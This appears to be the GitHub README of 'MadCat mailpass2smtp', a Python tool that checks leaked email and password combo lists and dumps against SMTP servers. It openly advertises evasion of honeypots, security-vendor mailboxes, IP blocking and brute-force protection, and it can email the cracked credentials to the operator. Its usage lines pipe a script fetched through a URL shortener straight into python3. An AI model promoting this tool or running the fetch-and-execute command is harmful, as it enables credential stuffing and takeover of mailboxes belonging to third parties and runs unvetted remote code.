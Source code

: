 # mailpass2smtp.py - MadCat proxyless mail:pass and SMTP bruter/cracker/checker
![image](https://user-images.githubusercontent.com/1212294/193922861-2e0d223e-5236-4d4d-a594-d169b08146a2.png)

SMTP checker, that takes list, containing emails & passwords, in any order and in any format, extract email & password, recover connection params and trying to login with these credentials.
## Features
- __don't require proxy lists__, at all
- takes as input literaly anything - __csv lists, sql dumps, json exports, text with any garbage__ inside. Accepting files up to 100Gb in size, still keeping memory footprint low.
- detects and skips __60+ topmost known honeypots__ and __80+% of unknown honeypots__, keeping you away from abuse reports.
- skips emails, hosted by all known security vendors (like __proofpoint, perimeterwatch, securence, techtarget, cisco__ etc.), to keep you away from abuses.
- __prefering ipv6__ over ipv4 to evade spam-house ip blocking.
- trying __qa-__ nodes first, where bruteforse protection is often disabled.
- trying to connect to __different geo-separated host nodes__ of mail servers in balancer pool, if any.
- custom DNS resolver, to connect to __different ip every time__. To evade bruteforse protection.
- __trying neighbor ips__, if server on current ip rate-limiting us.
- skips email providers, where login:password authorization (unsafe apps) is desabled by default (like mail.ru, gmail etc.)
- automaticaly __adjusts ulimit__ values, to keep you runnig as fast as possible.
- automatical threads count balancing.
- can email you with valid credentials, if you provide an email, for further inbox sorting.
- can probe around __~150 credential pairs per second__ (~300-500 in "rage" mode)
- you can resume scan from any line you want

## Setup
All you need is __python3__ and __psutil & dnspython__ modules installed (script will try to install missing modules by itself, anyway).
On CentOS you may need to install missing modules by hand:
```
sudo yum install python-devel
sudo yum install python-requests
sudo yum install python-psutil
sudo yum install python-dns
```
## Usage
```
python3 <(curl -slkSL is.gd/madcatsmtp) list.txt [verify_email@example.com] [ignored,email,domains] [start_from_line] [rage]
```
where:
- __list.txt__ is path to your combo list, or dump, or csv etc.
- __verify_email@example.com__ is email, where to mail valid results (optional).
- __ignored,email,domains__ is a comma-separated list of skipped email providers in addition to built-in one (optional).
- __start_from_line__ is just a line number to start from, if any (optional).
- __rage__ is a keyword, by adding which you will increase threads number from 300 to 600, which in case of small server will cause instabilities (optional).

\*good credential pairs will be saved to __original_file_name\_smtp.txt__.

Or just:
```
python3 <(curl -slkSL is.gd/madcatsmtp)
```
and you will be prompted for missing parameters.


Good luck.
